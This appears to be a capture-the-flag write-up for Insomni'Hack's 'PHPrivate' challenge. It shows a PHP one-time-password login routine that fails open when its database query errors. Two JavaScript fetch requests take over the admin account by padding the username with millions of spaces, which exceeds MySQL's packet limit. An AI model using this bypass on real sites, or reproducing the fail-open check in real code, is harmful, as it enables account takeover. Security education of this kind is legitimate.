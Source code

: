 ## PHPrivate

This challenge allows a user to register, and to upload some confidential data then on the "private" part of the website.

As the code was given, we can see that another feature not displayed on the website allows a user to request for an OTP in case he forgot his password. This process is in 2 steps :

- First, a user can request an OTP for his account. That switches a flag on his account, and creates an OTP in the database.
- Second, a user can confirm its OTP by simply sending it to the application.

The goal was obviously to bypass the OTP verification to login as admin, and then retrieves its private content.

The challenge, as it was for the Insomni'Hack live event, was buggy; a little typo in the code allowed everyone to login as admin with an empty OTP, which is pretty bad. Let's see the real solution instead !

Here is the code that confirms the OTP :

```
public function oneTimeLogin($username, $token){
   global $db;
   if($this->exists($username)){
      $user = mysqli_fetch_all($this->get($username), MYSQLI_ASSOC)[0];
      if($user['isResetting'] == '1') {
         $stmt = mysqli_prepare($db,"SELECT token FROM users_reset WHERE login = ? OR trim(login) = ? ");
         mysqli_stmt_bind_param($stmt,'ss',$username);
         mysqli_stmt_execute($stmt);
         $validToken = (string)mysqli_fetch_all(mysqli_stmt_get_result($stmt),MYSQLI_ASSOC)[0]['token'];
         if($validToken === $token) {
            $stmt = mysqli_prepare($db,"UPDATE users SET isResetting = 0 WHERE login = ?");
            mysqli_stmt_bind_param($stmt,'s',$user['login']);
            mysqli_stmt_execute($stmt);
            $stmt = mysqli_prepare($db,"DELETE FROM users_reset WHERE login = ?");
            mysqli_stmt_bind_param($stmt,'s',$user['login']);
            mysqli_stmt_execute($stmt);
            $_SESSION['logged_in_as'] = $user['login'];
         } else {
            return false;
         }
      }
   }
}
```

If the SQL request that retrieves the token from the database fails, nothing will catch an exception, and the `$validToken` variable will be set to an empty string, which should be ideal to bypass the process.

In its default configuration, MySQL only accepts packets that <16MB. If we're sending a packet that exceeds this size, the packet will be dropped, and the query will fail. As the PHP application accepts file uploads, it is also configured to accept large POST data - a PHPinfo file was available to check for that.
Also, MySQL by default strips space characters from the beginning and the ending of strings, and in every case, a call to trim was done to give a little hint about that. This allows to send the username as admin + ~8 million space to have a packet of over 16MB size.

The following two lines of Javacript allows to become admin :

```
fetch('/phprivate/index.php?page=login&action=ask-otp',{method:"POST", body:"login=admin", headers:{'Content-type':'application/x-www-form-urlencoded'}})

fetch('/phprivate/index.php?page=login&action=confirm-otp',{method:"POST", body:"login=admin"+" ".repeat(8000000)+"&token=", headers:{'Content-type':'application/x-www-form-urlencoded'}})
```
